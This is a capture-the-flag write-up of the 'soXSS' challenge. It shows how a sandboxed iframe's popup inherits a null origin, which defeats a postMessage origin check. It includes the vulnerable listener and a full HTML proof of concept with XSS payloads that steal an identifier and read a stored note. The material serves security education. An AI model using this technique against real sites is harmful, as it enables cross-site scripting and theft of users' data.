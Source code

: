 # soXSS - writeup

## Introduction

The challenge consisted of two components:
1. Text input for HTML notes.
2. Rendered HTML page from textarea, rendered inside an iframe.

The embedded iframe was within the same origin, but data sent to it was sanitized by [DOMPurify](https://github.com/cure53/DOMPurify).

## The idea

The idea for the challenge was rather simple:
1. Bypass the below snippet included inside iframe.
```js
const identifier = '4a600cd2d4f9aa1cfb5aa786';
onmessage = e => {
  const data = e.data;
  if (e.origin !== window.origin && data.identifier !== identifier) return;
  if (data.type === 'render') {
    renderContainer.innerHTML = data.body;
  }
}
```
2. Steal the identifier.
3. Steal the saved note from the main page with a correct idenntifier.

*💡 The name of the challenge - soXSS - was referring to Same-Origin XSS.*

## The solution

One could [notice](https://so-xss.terjanq.me/index.php?source) that the identifier was stored in a user's session and the session cookie was set to Lax. To solve the challenge the intended way was to bypass the following check `e.origin !== window.origin`. When `//example.org` is embeded into a sandboxed iframe, then the page's origin will be `null`, i.e. `window.origin === 'null'`. So just by embedding the iframe via `<iframe sandbox="allow-scripts" src="https://so-xss.terjanq.me/iframe.php">` we could force the `null` origin, only if the page was embeddable and cookies set to `SameSite=None`, but it wasn't the case for the challenge. The lesser known fact is that when the sandbox value `allow-popups` is set then the opened popup will inherit all the sandboxed attributes unless `allow-popups-to-escape-sandbox` is set. And that is the solution to the challenge: 
1. From a sandboxed page open a popup to `https://so-xss.terjanq.me/iframe.php`.
2. From any other `null` origin send a simple XSS to the popup and steal the identifier.
3. Open `https://so-xss.terjanq.me/iframe.php` and send XSS with stolen identifier so the origin is `so-xss.terjanq.me`.

All the steps are included in the below simple [PoC](https://so-xss-hof.terjanq.me/poc.html):

```html

<body>
  <script>
    f = document.createElement('iframe');
    f.sandbox = 'allow-scripts allow-popups allow-top-navigation';
    const payload = `x=opener.top;opener.postMessage(1,'*');setTimeout(()=>{
      x.postMessage({type:'render',identifier,body:'<img/src/onerror=alert(localStorage.html)>'},'*');
    },1000);`.replaceAll('\n',' ');
    f.srcdoc = `
    <h1>Click me!</h1>
    <script>
      onclick = e => {
        let w = open('https://so-xss.terjanq.me/iframe.php');
        onmessage = e => top.location = 'https://so-xss.terjanq.me/iframe.php';
        setTimeout(_ => {
          w.postMessage({type: "render", body: "<audio/src/onerror=\\"${payload}\\">"}, '*')
        }, 1000);
      };
    <\/script>
    `
    document.body.appendChild(f);
  </script>
</body>
```

## Credits
The challenge was created by [NDevTK](https://twitter.com/ndevtk) and [terjanq](https://twitter.com/terjanq)

